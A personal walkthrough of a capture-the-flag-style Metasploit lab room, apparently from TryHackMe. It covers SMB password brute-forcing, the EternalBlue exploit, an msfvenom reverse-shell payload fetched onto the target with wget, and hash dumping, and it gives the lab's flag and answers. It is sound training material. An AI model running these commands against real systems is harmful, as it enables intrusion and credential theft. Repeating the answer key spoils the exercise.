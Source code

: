 # Metasploit: Introduction

## Introduction

This room walks you through the process of finding a vulnerability in a system, and exploiting that vulnerability.

## Process

### Task 2: Scanning

This task showed us a few ways to scan systems, including Metasploit modules.

#### Task 2 Questions:

**How many ports are open on the target system?**\
> 5

Scanning the target with nmap showed 5 open ports.

**Using the relevant scanner, what NetBIOS name can you see?**\
> ACME IT SUPPORT

**What is running on port 8000?**
> webfs/1.21

**What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**\
> leo1234

Searching for smb_login and selecting auxiliary/scanner/smb/smb_login, the ```info``` command shows we need to set SMBUser to "penny", RHOSTS to the target IP, and the PASS_FILE to the password file specified in the first task.\
After setting those with ```set SMBUser penny```, ```set RHOSTS [target IP]```, and ```set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt```, running the module gives us the password ```leo1234```.

### Task 3: The Metasploit Database

This task explained how to use the Metasploit Database, first by starting the PostgreSQL database with the command ```systemctl start postgresql```, then ```msfdb init```.\
You can then check if the database is up by launching ```msfconsole``` and runnning ```db_status```.\
You can also list workspaces using ```workspace```, add workspaces using ```workspace -a NAME```, and delete workspaces using ```workspace -d NAME```.

### Task 4: Vulnerability Scanning

#### Task 4 Questions:
**Who wrote the module that allows us to check SMTP servers for open relay?**\
> Campbell Murray

Searching for smtp relay gives us the scanner/smtp/smtp_relay module. We can select it by running ```use 0```, and then use the ```info``` command to see the relevant information.

### Task 5: Exploitation

**Exploit one of the critical vulnerabilities on the target VM**\
The target machine is vulnerable to the exploit shown in the task images (ms17_010_eternalblue).\
I first open the ```msfconsole```, and search for eternalblue. The first result was the one we need (windows/smb/ms17/010/eternalblue), so I run ```use 0```.\
After running ```info```, I can see that RHOSTS has to be set to the target IP, so I do so with ```set RHOSTS [target IP]```.
I type ```run```, and a meterpreter session is eventually opened.

#### Task 5 Questions:

**What is the content of the flag.txt file?**\
> THM-5455554845

Navigate through commonly used folders, I find the flag file in the user's documents folder (C:\Users\Jon\Documents), showing the contents using ```edit flag.txt```. I can then push the meterpreter session to the background using ```CTRL-Z```.

**What is the NTLM hash of the password of the user "pirate"?**\
> 8ce9a3ebd1647fcc5e04025019f4b875

Now that the meterpreter session is in the background, we can leave the eternalblue module and searh for hashdump and windows: ```search hashdump windows``` (because the target machine is a windows machine) to find post/windows/gather/hashdump.\
Using that module, setting SESSION to 1 (my meterpreter session ID, checked by running the ```sessions``` command), and running prints the results we need, where the second hash on the pirate line is the one we are looking for.

### Task 6: Msfvenom

This task walks us through using msfvenom to create a reverse payload, and using that to open a meterpreter session and dump hashes of users on the system.

#### Task 6 Questions:
**Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).**\
We first create the meterpreter payload using ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf```. The example uses port 7777, but I found that port was being used so I used port 7776. I checked this by using ```nmap [AttackBox IP]```.

**Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).**\
This is pretty straight forward, just note that the example wget command is searching for a file named shell.elf, whereas the one we created was named rev_shell.elf. I also made the file executable after transferring it by running ```chmod +x rev_shell.elf```.

**Get a meterpreter session on the target machine.**\
We now have to use Multi Handler to receive the connection: we reopen ```msfconsole```, run ```use exploit/multi/handler```, and set our payload using ```set payload linux/x86/meterpreter/reverse_tcp```. We also set our lhost and lport values to our AttackBox IP and port 7776 respectively.\
I tried to run the file from the target machine directly but found when I switched back to the AttackBox the connection would close, so from the AttackBox I then ssh into the target machine using the credentials provided, became super user with ```sudo su```, and ran the file, establishing the connection.
I then left the meterpreter session running in the background by pressing ```CTRL-Z```.

**Use a post exploitation module to dump hashes of other users on the system.**
> $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

Now that we have the meterpreter session running, we can leave the Multi Handler module by running ```back```, and then select the post exploitation module we want: ```use post/linux/gather/hashdump```.\
I checked the ID of the meterpreter session we opened by typing ```sessions```, and then set the session variable using ```set SESSION 1``` (the ID of my meterpreter session was 1).\
Running the post exploitation module by typing ```run``` gave the hashes we wanted!



## Conclusion and Learning Outcomes
I really enjoyed this room, since it was a very hands on demonstration of a full exploitation and post exploitation of a target system. I found this very engaging and it was very nice to get to see the whole process of using Metasploit.
